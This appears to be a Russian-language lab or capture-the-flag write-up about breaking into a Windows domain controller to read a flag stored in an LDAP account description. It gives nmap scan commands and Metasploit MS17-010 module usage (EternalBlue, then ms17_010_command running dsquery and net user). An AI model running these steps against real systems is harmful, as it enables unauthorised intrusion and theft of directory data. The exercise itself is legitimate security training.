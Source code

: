 **Задача**

* Получить доступ к серверу `Windows`

* Получить определенный секрет (флаг) из позиции `description/comment` одной из учетных записей `LDAP`

**Задействованные инструменты**

* Nmap + nmap-скрипты

* Metasploit Framework

**Шаги выполнения**

1. Произвел сканирование портов сервера `Windows` утилитой `nmap`, задействовав стандартные скрипты:

    ```
    ~$ nmap -sS <ip> -p-

    ~$ nmap -sCV <ip> -p-
    ```

    В результате было обнаружено, что открыт порт `445` - `microsoft-ds`, который часто может быть подвержен уязвимостям бюллетеня безопасности `MS17-010`. Также был установлен факт, что данный сервер является контроллером домена `DC1`, что обеспечивает нам доступ к записям `LDAP` при успешной эксплуатации.

2. Используя `Metasploit Framework` сначала произвел атаку `EtelnalBlue` через эксплоит `exploit/windows/smb/ms17_010_eternalblue` (неуспешно), затем через эксплоит удаленного выполнения кода `auxiliary/admin/smb/ms17_010_command` (успешно):

    ```
    ~$ msfconsole -q

    msf6> use exploit/windows/smb/ms17_010_eternalblue

    msf6 exploit(windows/smb/ms17_010_eternalblue) > set RHOSTS <target IP>

    msf6 exploit(windows/smb/ms17_010_eternalblue) > run

    =-=-=-=-=-=-=-=-=-=-=-=-=-
    =-=-=-=-=-=FAIL-=-=-=-=-=-
    =-=-=-=-=-=-=-=-=-=-=-=-=-

    ==========================

    msf6> auxiliary/admin/smb/ms17_010_command

    msf6 auxiliary(admin/smb/ms17_010_command) > set RHOSTS <target IP>

    msf6 auxiliary(admin/smb/ms17_010_command) > set COMMAND dsquery user -desc *<secret>*

    msf6 auxiliary(admin/smb/ms17_010_command) > run

    ==========================

    msf6 auxiliary(admin/smb/ms17_010_command) > set COMMAND net user <username with secret in comment>

    msf6 auxiliary(admin/smb/ms17_010_command) > run
    ```
